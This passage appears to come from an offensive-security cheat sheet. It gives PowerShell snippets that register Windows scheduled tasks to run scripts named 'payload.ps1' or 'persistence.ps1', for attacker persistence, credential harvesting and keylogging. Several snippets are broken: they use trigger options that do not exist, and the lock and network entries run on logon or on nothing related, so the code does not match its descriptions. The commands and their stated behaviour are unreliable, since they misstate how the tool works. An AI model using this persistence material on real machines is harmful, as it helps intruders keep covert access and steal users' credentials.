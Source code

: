 #### Trigger on User Disconnect
   - Description: This trigger will execute when a user session is disconnected (e.g., when an RDP session ends or the user locks the workstation).
   - PowerShell Command:
     ```powershell
     $action = New-ScheduledTaskAction -Execute "powershell.exe" -Argument "-File C:\path\to\cleanup.ps1"
     $trigger = New-ScheduledTaskTrigger -AtLogoff
     Register-ScheduledTask -Action $action -Trigger $trigger -TaskName "LogoffCleanupTask" -Description "Execute Task on Logoff"
     ```
   - Use Case: This is particularly useful for cleanup tasks or to ensure persistence when the user disconnects or logs off.

#### Trigger on Network Connection
   - Description: Triggers the task when the system connects to a specific network or any network. 
   - PowerShell Command:
     ```powershell
     $action = New-ScheduledTaskAction -Execute "powershell.exe" -Argument "-File C:\path\to\persistence.ps1"
     $trigger = New-ScheduledTaskTrigger -AtTaskCreation
     Register-ScheduledTask -Action $action -Trigger $trigger -TaskName "NetworkConnectTask" -Description "Persistence on Network Connect"
     ```
   - Use Case: Perfect for persistence when a machine connects to specific networks, allowing an attacker to activate when the machine re-establishes network connectivity.

#### Trigger on Task Registration
   - Description: This trigger activates when a new task is registered or modified. It can be used to detect and react when new scheduled tasks are created or when existing ones are changed. 
   - PowerShell Command:
     ```powershell
     $action = New-ScheduledTaskAction -Execute "powershell.exe" -Argument "-File C:\path\to\payload.ps1"
     $trigger = New-ScheduledTaskTrigger -AtTaskRegistration
     Register-ScheduledTask -Action $action -Trigger $trigger -TaskName "TaskRegistrationMonitor" -Description "Execute payload on task registration"
     ```
   - Use Case: This can be used as a secondary persistence method that activates when an attacker, defender, or admin creates or modifies scheduled tasks, potentially helping maintain access.

#### Trigger on Workstation Lock
   - Description: Similar to the unlock trigger, but this will activate when the workstation is locked. This could be useful for initiating processes when the user is leaving the system, such as capturing session data or credentials before the user logs off or locks their session.
   - PowerShell Command:
     ```powershell
     $action = New-ScheduledTaskAction -Execute "powershell.exe" -Argument "-File C:\path\to\payload.ps1"
     $trigger = New-ScheduledTaskTrigger -AtLogon -User "DOMAIN\User"
     Register-ScheduledTask -Action $action -Trigger $trigger -TaskName "LockTask" -Description "Execute on Workstation Lock"
     ```
   - Use Case: This can be used to persist access or perform tasks like credential harvesting or initiating key logging when the user locks their session.
